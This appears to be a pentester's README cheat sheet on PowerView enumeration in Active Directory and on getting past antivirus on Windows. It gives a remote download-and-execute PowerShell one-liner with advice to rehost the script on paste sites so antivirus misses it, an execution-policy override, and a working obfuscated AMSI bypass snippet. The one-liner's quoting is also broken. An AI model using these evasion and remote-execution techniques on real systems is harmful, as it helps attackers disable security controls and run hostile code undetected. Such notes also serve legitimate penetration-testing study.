 # Updates:

| date | name | description | comment | link |
| --- | --- | --- | --- | --- |
| 07/2020 | PowerView | Different tools for enumaration in Active Directory | Active Directory | [PowerView](#powerview) |
| 09/2020 | AMSI bypass | Technique to bypass Antivirus check when executing powershell scripts | AMSI bypass | [AMSI bypass](#amsi-bypass) |


# PowerView

## Using PowerView: 

cheatsheet: https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview

## Load into memory from remote (to avoid AV detection):

> iex ((New-Object System.Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1"))```
  
**NOTE:** if AV detects the URL, then just host it somewhere on your own.</br>
It has to be served from a unknown URL, since AV catches the PowerView, PowerShell etc. words.</br>
One of the solutions is to use an online service like https://pastebin.com, or https://paste.ee

**NOTE:** If execution is forbidden in powershell use this:
```powershell
    Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Unrestricted
```
    
## Use something like this syntax:

> Get-NetUser -Filter "(title=Test Developer Junior)" | select name,samaccountname,title,manager

## Avoiding Antivirus:

In case AV prevents executing PowerShell scripts, try to bypass AMSI (https://www.youtube.com/watch?v=yHstFvLwDYM)

---

# AMSI bypass

To check if AMSI is active, type **"amsiutils"** (along with quotes) into the powershell prompt. If it is active, you will see a warning; otherwise, you'll see that word printed out. That way you can check if AMSI bypass was successful.

AV will be triggered by the word **amsiutils**, so it has to be obfuscated in some way. Here is one of the possible solutions:

```powershell
$r =[Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils')
$o="4456625220575263174452554847"
$c =[string](0..13|%{[char][int](53+($o).substring(($_*2),2))})-replace " "
$k =$r.GetField($c,'NonPublic,Static')
$k.SetValue($null,$true)
```

---
